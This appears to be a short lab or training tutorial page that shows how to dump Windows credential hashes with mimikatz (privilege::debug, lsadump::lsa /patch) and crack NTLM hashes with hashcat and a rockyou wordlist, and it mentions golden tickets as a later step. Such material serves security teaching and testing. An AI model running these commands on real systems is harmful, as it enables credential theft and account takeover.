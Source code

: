 # Dumping hashes w/ mimikatz

\


### Dump Hashes w/ mimikatz -

1.) `cd Downloads && mimikatz.exe` this will cd into the directory that mimikatz is kept as well as run the mimikatz binary\


<div align="left">

<figure><img src="../.gitbook/assets/image (22) (1).png" alt=""><figcaption></figcaption></figure>

</div>

\
2.) `privilege::debug` ensure that the output is "Privilege '20' ok" - This ensures that you're running mimikatz as an administrator; if you don't run mimikatz as an administrator, mimikatz will not run properly\


<div align="left">

<figure><img src="../.gitbook/assets/image (23) (1).png" alt=""><figcaption></figcaption></figure>

</div>

\
3.) `lsadump::lsa /patch` Dump those hashes!\


<div align="left">

<figure><img src="../.gitbook/assets/image (24) (1).png" alt=""><figcaption></figcaption></figure>

</div>

### Crack those hashes w/ hashcat

﻿

1.) `hashcat -m 1000 <hash> rockyou.txt`   &#x20;

<figure><img src="../.gitbook/assets/image (25) (1).png" alt=""><figcaption></figcaption></figure>

\
Mimikatz has many uses along side being a great tool to dump hashes we will cover another one of those ways of using mimikatz in the next task by creating a golden ticket with mimikatz\
